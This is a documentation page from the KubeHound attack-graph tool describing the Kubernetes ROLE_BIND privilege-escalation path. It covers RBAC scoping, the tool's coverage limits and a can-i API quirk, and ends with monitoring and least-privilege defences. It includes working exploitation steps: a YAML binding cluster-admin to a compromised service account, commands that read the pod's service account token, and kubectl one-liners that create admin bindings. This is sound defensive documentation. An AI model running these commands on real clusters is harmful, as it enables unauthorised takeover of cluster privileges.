

<!--
id: ROLE_BIND
name: "Create role binding"
mitreAttackTechnique: T1078 - Valid Accounts
mitreAttackTactic: TA0004 - Privilege Escalation
-->


# ROLE_BIND

A role that grants permission to create or modify `(Cluster)RoleBindings` can allow an attacker to escalate privileges on a compromised user.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [PermissionSet](../entities/permissionset.md)  | [PermissionSet](../entities/permissionset.md) | [Valid Accounts, T1078](https://attack.mitre.org/techniques/T1078/) |

## Details


### TL;DR
An attacker with sufficient permission can create a `RoleBinding` with the default existing admin `ClusterRole` and bind it to a compromised user. By creating this `RoleBinding`, the compromised user becomes highly privileged, and can execute privileged operations in the cluster (reading secrets, creating pods, etc.).

To exploit the attack we need to:
* Be able to `create` (verb) a `clusterolebinding` or `rolebinding` (resource).
* Be able to `bind` (verb) a `clusterrole` or a `role` (resource).

### RBAC

To fully understand the attacks we need to know the basic around RBAC in kubernetes:
* Roles and role bindings must exist in the same namespace.
* Role bindings can exist in separate namespaces to service accounts.
* Role bindings can link cluster roles, but they only grant access to the namespace of the role binding.
* Cluster role bindings link accounts to cluster roles and grant access across all resources.
* Cluster role bindings can not reference roles.

In KubeHound we added an abstraction called PermissionSet which is an object that link the RoleBinding and the Role directly (in one object). When creating every PermissionSet all the above rules are enforced to make sure the scope is valid.

In the bind attack there is 2 levels to checks:
* The PermissionSet itself (rolebinding/role) which will grant the role to designated subject 
* The actual verbs allowed by the PermissionSet. We are looking for the verbs `create` and `bind`.

To test all usecases, we created unit tests for each:
* CRB_CR: regroup all the PermissionSets with **C**luster**R**ole**B**inding / **C**luster**R**ole.
* RB_CR-SA: regroup all the PermissionSets with **R**ole**B**inding/**C**luster**R**ole for a **S**ervice **A**ccount.
* RB_R-SA: regroup all the PermissionSets with **R**ole**B**inding/**R**ole for a **S**ervice**A**ccount.
* RB_R-UG: regroup all the PermissionSets with **R**ole**B**inding/**R**ole for **U**sers/**G**roups.



But, the PermissionSet object is created only if a role is linked by a rolebinding, this imply:
* **If a role is not linked by a role binding, no PermissionSet will be created in the graph.** Therefore this role can not be used in any attack paths (there is no direct role abstraction)
* **All the PermissionSet are created from at the ingestion time.** Currently no attacks create new assets in the graph. It means only the "existing" PermissionSet can be used in the attack path generation.

So some of the usecases are not fully covered:
| Usecase #| Coverage | Limitation description| 
|------|-------|---------|
| 1 | Full | N/A |
| 2 | Limited | All the PermissionSet that are not namespaced are linked to a single specific namespace. Yet, this attack allow to bind a role to any namespace. Therefore, we would need to create additional PermissionSet for every namespace if we want to fully cover the attack|
| 3 | Full | N/A |
| 4 | None | To cover this usecase, we need duplicate a non-namespaced PermissionSet to a namespace one. |


### Limitation of the can-i Kubernetes API

The PermissionSet (linked by RoleBinding/Role) **allows access to namespaced objects only**. So even if the verb allows you to `create` a `ClusterRoleBinding` and `bind` a `ClusterRole`, it will not work because those objects are not namespaced. With this PermissionSet (RB/R), the scope is only namespaced objects. 

K8s API will let you create invalid configs, it is considered as "a feature of Kubernetes RBAC". For instance you can create RBAC that will give you rights to allow the educate right on dolphin objects. So Kubernetes won't warn you if you get something wrong, because it doesn’t have a list of what “right” looks like. So when asking the `can-i` API from Kubernetes, it will tell you that you can `create` a `ClusterRoleBinding` and `bind` a `ClusterRole` because it will only process a "regex check".

Asking the API if I can create/bind:

```bash
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl auth can-i create clusterrolebindin
Warning: resource 'clusterrolebindings' is not namespace scoped in group 'rbac.authorization.k8s.io'

yes
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl auth can-i bind clusterrole
Warning: resource 'clusterroles' is not namespace scoped in group 'rbac.authorization.k8s.io'

yes
```

Exploiting the attack fails (as expected):

```bash
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl create clusterrolebinding rolebindadmin --clusterrole=cluster-admin --serviceaccount=default:rolebind-sa-rb-r-crb-cr-fail
error: failed to create clusterrolebinding: clusterrolebindings.rbac.authorization.k8s.io is forbidden: User "system:serviceaccount:default:rolebind-sa-rb-r-crb-cr-fail" cannot create resource "clusterrolebindings" in API group "rbac.authorization.k8s.io" at the cluster scope
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl create clusterrolebinding rolebindadmin --clusterrole=cluster-admin --serviceaccount=default:rolebind-sa-rb-r-crb-cr-fail -n default
error: failed to create clusterrolebinding: clusterrolebindings.rbac.authorization.k8s.io is forbidden: User "system:serviceaccount:default:rolebind-sa-rb-r-crb-cr-fail" cannot create resource "clusterrolebindings" in API group "rbac.authorization.k8s.io" at the cluster scope
```

### Tests User/Group RBAC in kind cluster

Users and groups have been created in the Kind Cluster. Each user have it is own kubeconfig file. They are located in the `test/setup/test-cluster/RBAC` folder:

* KUBECONFIG=test/setup/test-cluster/RBAC/user-rb-r-crb-cr-fail/kubeconfig kubectl auth can-i bind clusterrole


## Prerequisites

Ability to interact with the K8s API with a role allowing modify or create access to `(Cluster)RoleBindings`.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/ROLE_BIND.yaml).

## Checks

Installing required binary (jq / curl / kubectl)
```bash
ARCH=$(arch | sed s/aarch64/arm64/ | sed s/x86_64/amd64/)
apt update && apt install -y curl jq && curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/arm64/kubectl" && chmod +x kubectl
```

Simply ask kubectl:
```bash
./kubectl auth can-i create clusterrolebinding
./kubectl auth can-i create rolebinding
./kubectl auth can-i bind role
./kubectl auth can-i bind clusterrole
```

Note: in one edge case (describe earlier), using `can-i` Kubernetes API is not enough.

## Exploitation

Create the `(Cluster)RoleBinding` definition as below:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: evil-rolebind
  namespace: default
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: cluster-admin
subjects:
  - kind: ServiceAccount
    name: <compromised user>
    namespace: default
```

Create the binding via kubectl:

```bash
kubebctl apply -f evil-rolebind-spec.yaml
```

Retrieving service account information (needed to bind the role):

```bash
JWT=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
SAS=$(jq -R 'split(".") | .[1] | @base64d | fromjson' <<< "$JWT" | jq -r '."kubernetes.io"|.namespace,.serviceaccount.name' | paste -s -d ":")
```

Exploiting the attack using only the kubectl command:

```bash
./kubectl create rolebinding rbr-admin --role=admin --serviceaccount=$SAS -n default
./kubectl create rolebinding r-cr-admin --clusterrole=cluster-admin --serviceaccount=$SAS -n default
./kubectl create clusterrolebinding cr-cr-admin --clusterrole=cluster-admin --serviceaccount=$SAS
```

Note: the `admin` is not a standard role, it has been added manually in the kind cluster.

## Defences

### Monitoring

+ Monitor anomalous access to the K8s authorization API including creating privileged `(Cluster)RoleBinding` from with a pod, unusual `User-Agent` headers and other outliers.

### Implement least privilege access

Creating `(Cluster)RoleBinding` is a very powerful privilege and should not be required by the majority of users. Use an automated tool such a KubeHound to search for any risky permissions and users in the cluster and look to eliminate them.

## Calculation

+ [RoleBind](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/role_bind.go)
+ [RoleBindNamespace](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/role_bind_namespace.go)

## References:

+ [Official Kubernetes Documentation:Using RBAC Authorization](https://kubernetes.io/docs/reference/access-authn-authz/rbac/#rolebinding-and-clusterrolebinding)
+ [Securing Kubernetes Clusters by Eliminating Risky Permissions](https://www.cyberark.com/resources/threat-research-blog/securing-kubernetes-clusters-by-eliminating-risky-permissions)
+ [Getting into a bind with Kubernetes](https://raesene.github.io/blog/2021/01/16/Getting-Into-A-Bind-with-Kubernetes/)
+ [Official Kubernetes Documentation: Bind verb](https://kubernetes.io/docs/concepts/security/rbac-good-practices/#bind-verb)
+ [Official Kubernetes Documentation: RBAC rules](https://kubernetes.io/docs/reference/access-authn-authz/rbac/)
+ [Mixing Kubernetes Roles, RoleBindings, ClusterRoles, and ClusterBindings](https://octopus.com/blog/k8s-rbac-roles-and-bindings)
+ [RBAC Virtual Verbs: Teaching Kubernetes to Educate Dolphins](https://blog.aquasec.com/kubernetes-verbs)
